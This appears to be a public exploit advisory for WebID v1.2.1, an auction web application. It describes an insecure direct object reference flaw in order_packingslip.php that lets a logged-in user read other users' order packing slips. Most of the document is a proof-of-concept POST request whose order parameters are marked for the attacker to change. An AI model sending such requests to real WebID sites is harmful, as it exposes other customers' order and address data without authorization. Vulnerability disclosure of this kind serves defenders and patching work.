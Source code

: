 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view every order packing slip that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /order_packingslip.php HTTP/1.1
...

csrftoken=5464f3f46746c5b6438a31d8b8f8d548&pfval=4(CHANGE HERE)&pfwon=3(CHANGE HERE)&user_id=4
```